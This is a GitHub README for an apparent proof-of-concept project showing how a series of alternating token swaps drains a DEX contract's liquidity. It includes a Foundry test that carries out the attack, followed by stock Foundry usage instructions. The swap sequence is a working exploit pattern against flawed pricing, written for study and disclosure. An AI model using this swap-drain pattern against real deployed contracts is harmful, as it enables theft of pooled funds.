 # PoC Dex
## Overview:
An attacker can exploit the Dex contract by performing a series of swaps to drain the liquidity. 

## Actors:
Attacker - The attacker make some series of swaps to the DEX to drain the liquidity
Protocol - The protocol is a DEX the allows two different types of token to be swapped, token one & token two.

### Test Case:
`
function test_multiple_swaps() public {
        vm.startPrank(attacker);
        token1.approve(address(dex), 100);
        token2.approve(address(dex), 100);

        uint256 token1Expected = token1.balanceOf(address(dex));
        dex.swap(address(token1), address(token2), 10);
        dex.swap(address(token2), address(token1), 20);
        dex.swap(address(token1), address(token2), 24);
        dex.swap(address(token2), address(token1), 30);
        dex.swap(address(token1), address(token2), 41);
        dex.swap(address(token2), address(token1), 45);

        uint256 token1Balance = token1.balanceOf(attacker);
        uint256 token1ExpectedAfter = token1.balanceOf(address(dex));
        
        assert(token1Balance == token1Expected + 10);
        assertEq(token1ExpectedAfter, 0);
    }
`



## Foundry

**Foundry is a blazing fast, portable and modular toolkit for Ethereum application development written in Rust.**

Foundry consists of:

-   **Forge**: Ethereum testing framework (like Truffle, Hardhat and DappTools).
-   **Cast**: Swiss army knife for interacting with EVM smart contracts, sending transactions and getting chain data.
-   **Anvil**: Local Ethereum node, akin to Ganache, Hardhat Network.
-   **Chisel**: Fast, utilitarian, and verbose solidity REPL.

## Documentation

https://book.getfoundry.sh/

## Usage

### Build

```shell
$ forge build
```

### Test

```shell
$ forge test
```

### Format

```shell
$ forge fmt
```

### Gas Snapshots

```shell
$ forge snapshot
```

### Anvil

```shell
$ anvil
```

### Deploy

```shell
$ forge script script/Counter.s.sol:CounterScript --rpc-url <your_rpc_url> --private-key <your_private_key>
```

### Cast

```shell
$ cast <subcommand>
```

### Help

```shell
$ forge --help
$ anvil --help
$ cast --help
```
